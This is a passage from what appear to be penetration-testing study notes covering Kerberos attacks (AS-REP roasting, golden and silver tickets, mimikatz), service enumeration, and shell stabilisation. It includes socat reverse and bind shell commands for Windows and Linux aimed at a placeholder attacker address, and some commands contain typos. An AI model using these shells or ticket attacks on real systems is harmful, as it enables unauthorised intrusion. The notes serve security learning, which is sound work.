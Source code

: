     - AS-REP Roasting - Access as any user required. Kerberos attack method for when a user account has the "Does not require Pre-Authentication" privilege set, so the account doesn't need to provide valid identification before requesting a Kerberos ticket
        - Use Impacket `GetNPUsers.py` to query ASREPRoastable accounts from the Key Distribution Center. You just need a valid set of usernames.
    - Golden Ticket - Full domain compromise (domain admin) required 
    - Silver Ticket - Service hash required 
    - Skeleton Key - Full domain compromise (domain admin) required
- Tools
    - [Kerbrute](https://github.com/ropnop/kerbrute): tool for Kerberos pre-auth bruteforcing
    - [Rubeos](https://github.com/GhostPack/Rubeus): a C# toolset for raw Kerberos interaction and abuses
    - [Impacket](https://github.com/SecureAuthCorp/impacket): Impacket GetNPUsers.py
- ASREPRoasting: 
- Pass the Ticket w/mimikatz: dump the TGT from LSASS memory
- Golder/Silver Ticcket Attacks w/mimikatz

#### NFS
- `showmount e <host>` - shows mount info for an NFS server
- mount the NFS share with `sudo mount -t nfs <IP>:<SHARE> /mount/location`

#### SMTP
- enumerate with nmap script or metasploit (auxiliary/scanner/smtp/smtp-enum)

#### MySQL
- enumerate with nmap script or metasploit (auxiliary/scanner/mysql)

#### NoSQL
- [Redis](https://redis.io/): in-memory data strucdture store
- [MongoDB](https://www.mongodb.com/): popular NoSQL document store

#### Git
- [GitTools](https://github.com/internetwache/GitTools): scripts for pwning .git repos

#### Shells
- Stabilize shell with python: `python -c 'import pty;pty.spawn("/bin/bash")'` to run a bash shell
- Get stable bind or reverse shell
    1. Python 
        ```bash
        python -c 'import pty;pty.spawn("/bin/bash")' # spawn bash shell
        export TERM=xterm # get access to term command like `clear`
        stty raw -echo; fg # turns off terminal echo (so we get tab autocomplete, arrow keys, and Ctrl + C) 
        # NOTE if the shell dies, we won't get any terminal echo since we disabled it
        # type `reset` to fix that
        ```
    2. rlwrap: gives access to history, tab completion, and arrow keys. Particularly useful for Windows shells.
        ```bash
        rlwrap nc -lvnp <port>
        stty raw -echo; fg # to completely stabilise
        ```
    3. Socat
        - initial access with `nc`. Download socat static compiled binary.
        - Reverse shells
            - Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
                - The _pipes_ options is used to force powershell or cmd.exe to use Unix style STDIO
            - Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash-li"`
        - Bind shells
            - Windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
            - Linux: `socat TCP-L:<PORT> EXEC:"bash -li"`